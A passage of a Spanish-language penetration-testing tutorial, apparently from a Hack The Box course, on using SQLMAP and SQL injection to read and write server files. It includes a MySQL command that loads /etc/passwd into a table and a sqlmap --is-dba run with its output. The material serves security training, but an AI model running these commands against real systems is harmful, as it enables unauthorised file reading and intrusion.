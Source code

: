 # OS Exploitation

SQLMAP tiene la capacidad de utilizar una inyección SQL para leer y escribir archivos desde el sistema local fuera del DBMS. SQLMAP también puede intentar darnos una ejecución de comando directo en el host remoto si tuviéramos los privilegios adecuados.

---

# **Archivo Leer/Escribir**

La primera parte de la explotación del sistema operativo a través de una vulnerabilidad de inyección SQL es leer y escribir datos en el servidor de alojamiento. La lectura de datos es mucho más común que escribir datos, que es estrictamente privilegiado en los DBMS modernos, ya que puede conducir a la explotación del sistema, como veremos. Por ejemplo, en MySQL, para leer archivos locales, el usuario de DB debe tener el privilegio de`LOAD DATA`y`INSERT`, para poder cargar el contenido de un archivo en una tabla y luego leer esa tabla.

Un ejemplo de tal comando es:

- `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

Si bien no necesariamente necesitamos tener privilegios de administrador de bases de datos (DBA) para leer datos, esto se está volviendo más común en los DBMS modernos. Lo mismo se aplica a otras bases de datos comunes. Aún así, si tenemos privilegios de DBA, entonces es mucho más probable que tengamos privilegios de lectura de archivos.

---

# **Verificar los privilegios de DBA**

Para verificar si tenemos privilegios de DBA con SQLMAP, podemos usar el`--is-dba`opción:

OS Exploitation

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19

```
